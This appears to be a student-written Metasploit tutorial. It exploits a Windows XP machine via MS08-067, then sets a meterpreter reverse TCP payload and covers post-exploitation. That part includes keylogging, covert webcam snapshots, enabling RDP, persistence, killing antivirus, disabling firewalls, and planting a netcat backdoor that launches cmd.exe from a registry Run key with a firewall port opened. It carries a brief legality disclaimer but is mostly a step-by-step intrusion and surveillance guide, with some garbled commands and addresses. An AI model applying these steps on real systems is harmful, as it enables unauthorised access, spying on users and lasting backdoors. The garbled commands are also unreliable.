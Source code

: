 
###Metasploit Instructions
##Introduction
Metasploit is a software tool which uses exploits to test the vulnerability of a computer or server and uses the exploits to gain access to things that had restricted access. This helps computer users understand how defenseless their computer might be and how important it is that they fix it. It also allows the users to understand the importance of security. The needed knowledge and skills that come with Metasploit is the ability to use nmap and exploit scanners because the Metasploit doesn’t actually scan for vulnerabilities; it can only exploit. Without the nmap or exploit scanners you cannot actually use Metasploit because you will not know what exploit to use. One should also be able to use and understand command line in linux or Windows. The necessary tools for Metasploit are a vulnerability scanner of some sort to find out what exploits you need and another virtual machine or a computer that belongs to the Metasploit user is also necessary since it is illegal to use Metasploit to exploit and gain access to computers that they are not allowed to access. One must download and install Metasploit.  The first steps that I will cover in this are how to use the Exploit database and find the exploit that is needed, I will move to how to use the exploit and how to execute said exploit and lastly I will cover how to make use of said exploit by either metepreter or command line.
##Exploiting
If you were to find your exploit from a using an exploit scanners you can skip this step. Otherwise use nmap to find out what type of OS the system you are trying to exploit uses, and see if it is unpatched version of the OS.  Once you have found out what OS it is you should look up what exploits can be used for this system’s vulnerability. For example say you are using windows XP on your computer and port 445 is open.  You could google different exploits that are used for windows XP service that are available in Metasploit.  We find that there is an exploit called MS08-67 for windows. If you were using an exploit scanner it would tell you vulnerability on that system and you wouldn’t need to google what it is.  Instead one could find out much about the different exploits from info provided by the scanner. Once you find out what the name of the exploit is you now can use Metasploit. Firstly you want to use the Metasploit console and enter the line `use exploit/ `and because we are using windows we will use `use exploit/windows/`
![alt text](https://github.com/willthegreatest/instructions/blob/master/images/show.PNG)

After this we need to know what kind of exploit this is. Fortunately we already know what kind of exploit this is from the google search or the exploit scan. Once we get this down we can now use tab to list the number of exploits that you that windows has. But since we already know which exploit we are going to use we use the command `use exploit/windows/smb/ms08_067_netapi`.
After getting to the exploit we need there are multiple things we must set up before we can use the exploit against the vulnerable computer. To do this we use the show options command in Metasploit which will give us three options for the MS08-67 exploit, but we will only be using the first two.  The first option is RHOST which is the address of the host. We use the command `set RHOST 127.0.0.0.1`with the correct IP address of the user you are using. The second option is PHOST with this we must use an open port that the target computer has open. We set this to port 445 because that is the port that is used for this type of exploit. One would have figured this out from previous steps such as the nmapping or exploit scan. 
![alt text](https://github.com/willthegreatest/instructions/blob/master/images/optionswithset.PNG)

##Payload
The next step in the process is to set the payload. With this we use the show payload command which shows every type of payload we can use for this exploit. For this one we will use the metepreter reverse tcp . This allows us to use the metepreter function of Metasploit which has many different tools and built in scripts. So to do this we the command `set  payload windows/metepreter/reverse-tcp`. This step sets the payload to activate we you use the run command. Before you can run it you must set the properties for the payload. For this we use show payload options and one can see that there is two different options. The first option is LHOST which we want to set to your ip address. To change this we use the `set LHOST 127.0.0.1.`. The second option is the port you want to use to connect to the exploited machine.  To change this we use `set LPORT 6666`.
![alt text](https://github.com/willthegreatest/instructions/blob/master/images/showpayload.PNG)

After this is all done and it done correctly we should be able to run the exploit against the vulnerable. With the command `exploit`.
![alt text](https://github.com/willthegreatest/instructions/blob/master/images/exploit.PNG)

##Post Exploitation
If everything is working correctly the exploit should work and the payload should drop. We should have access to the metepreter. At this point there a few things we can and should do. First thing we want to do is check the system we are running on. There are multiple things you can do now with this now which I will split into multiple sections.
###Gaining Information
The first section will be about getting information about the user from metepreter.  We can run the sysinfo command to get the system information of the computer that you are running. This will be extremely helpful if you were unaware of how patched the XP machine is. The next thing we can do is use a keylogger to get passwords or personal information about the user. We do this by using the command `keyscan` into the metepreter. With this it will scan for keystrokes and when we want to see what the user has typed in we use the `key_dump` to see what the user has typed in. Another thing you can do on the machine is see the user screen. This is done through the command `getgui –u username –p password`. This will enable rdp if it has been disabled and will allow you to get access to the screen of the computer. The last thing I will include in getting information about the user is the webcam command. To see if the computer has any webcams we use the command `webcam_list` and if there is one we can use the command `webcam_snap` which will take a picture of the person using the computer.
###Mataining Access
The next section I will talk about is how to maintain access to the computer. The next thing you should do is use the metepreter persistence which will allow you to have access to the system under certain situations.  To do this we use the command `run persistence –X –i  5 –p 6665 –r  127.0.0.1`. The –X will connect you to the computer whenever you have metepreter open and the system is booted up. The –i is the intervals that it will try to connect to the host. The –p is for the port that you will be connecting to and the –r is used for your ip address. This will allow you connect the infected machine even after the user has shut down when the user turns it back on instead of kicking you off for good. Let also say we want to make sure we don’t get kicked off the machine by an antivirus, we could run the command `killav` which can disable many anti viruses. We can also use the command `run getcountermeasures` to see if we can disable firewalls of the infected computer. The last thing you might want to do is install a backdoor to get to the computer if the persistence command fails. This can be done by first uploading netcat to the remote system using the command `upload /usr/share/windows-binaries/nc.exe C:\windows\system32` which will put the netcat executable onto the vulnable machine. The next thing we do is to allow it to run at every time the computer starts up so we use the command `reg setval -k HKLM\software\microsoft\windows\currentversion\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 455 -e cmd.exe`. This will make the netcat start everytime with port 455 open.  The last thing we need to is make sure the firewall will enable the netcat connection to go through ( which could be avoided if you disabled the firewall with getcountermeasures). We do this by using the command `netsh firewall add portopening TCP 455 "Service Firewall" ENABLE ALL` which will open up the port to be accessed through the firewall. With the backdoor installed you no longer need to use metesploit to log into the vulnerable machine. Instead you need only to use `nc -v 127.0.0.01 455` in your commandline to connect to the machine that you have infected.
##Conclusion
While this is only one of the exploits that you can use to gain access to a computer, the purpose of the exploit is many of things taught in these instructions can be substituted for other exploits or scripts. So even though it doesn’t cover all of the types of instruction, many approaches can be learned from just one example of an exploit. I choose the MS08-67 exploit because it was easy and allows for remote access while some exploits do not. Hopefully these instructions will help you understand Metasploit better and how to be safer and more proficient with computers.
